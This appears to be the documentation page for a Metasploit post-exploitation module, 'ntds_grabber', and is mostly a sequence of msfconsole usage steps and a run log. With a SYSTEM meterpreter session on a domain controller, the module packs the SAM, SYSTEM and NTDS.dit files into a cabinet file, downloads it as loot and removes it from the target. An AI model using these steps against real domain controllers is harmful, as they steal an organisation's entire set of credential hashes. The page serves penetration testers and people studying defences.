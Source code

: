 ## Creating A Testing Environment
  To use this module you need an meterpreter on a domain controller.
  The meterpreter has to have SYSTEM privileges.
  Powershell has te be installed.

This module has been tested against:

  1. Windows Server 2008r2

This module was not tested against, but may work against:

  1. Other versions of Windows server.

## Verification Steps

  1. Start msfconsole
  2. Obtain a meterpreter session with a meterpreter via whatever method.
  3. Ensure the metepreter has SYSTEM privileges.
  4. Ensure powershell is installed.
  3. Do: 'use post/windows/gather/ntds_grabber '
  4. Do: 'set session #'
  5. Do: 'run'

## Scenarios

### Windows Server 2008r2 with an x86 meterpreter

    msf exploit(psexec) > use post/windows/gather/ntds_grabber 
    msf post(ntds_grabber) > set session #
    session => #
    msf post(ntds_grabber) > run

    [+] [2017.04.05-12:26:49] Running as SYSTEM
    [+] [2017.04.05-12:26:50] Running on a domain controller
    [+] [2017.04.05-12:26:50] PowerShell is installed.
    [-] [2017.04.05-12:26:50] The meterpreter is not the same architecture as the OS! Migrating to process matching architecture!
    [*] [2017.04.05-12:26:50] Starting new x64 process C:\windows\sysnative\svchost.exe
    [+] [2017.04.05-12:26:51] Got pid 3088
    [*] [2017.04.05-12:26:51] Migrating..
    [+] [2017.04.05-12:26:56] Success!
    [*] [2017.04.05-12:26:56] Powershell Script executed
    [*] [2017.04.05-12:26:59] Creating All.cab
    [*] [2017.04.05-12:27:01] Waiting for All.cab
    [*] [2017.04.05-12:27:02] Waiting for All.cab
    [+] [2017.04.05-12:27:02] All.cab should be created in the current working directory
    [*] [2017.04.05-12:27:05] Downloading All.cab
    [+] [2017.04.05-12:27:15] All.cab saved in: /home/XXX/.msf4/loot/20170405122715_default_10.100.0.2_CabinetFile_648914.cab
    [*] [2017.04.05-12:27:15] Removing All.cab
    [+] [2017.04.05-12:27:15] All.cab Removed
    [*] Post module execution completed
    msf post(ntds_grabber) > loot

    Loot
    ====

    host        service  type          name     content          info                                              path
    ----        -------  ----          ----     -------          ----                                              ----
    10.100.0.2           Cabinet File  All.cab  application/cab  Cabinet file containing SAM, SYSTEM and NTDS.dit  /home/XXX/.msf4/loot/20170405122715_default_10.100.0.2_CabinetFile_648914.cab
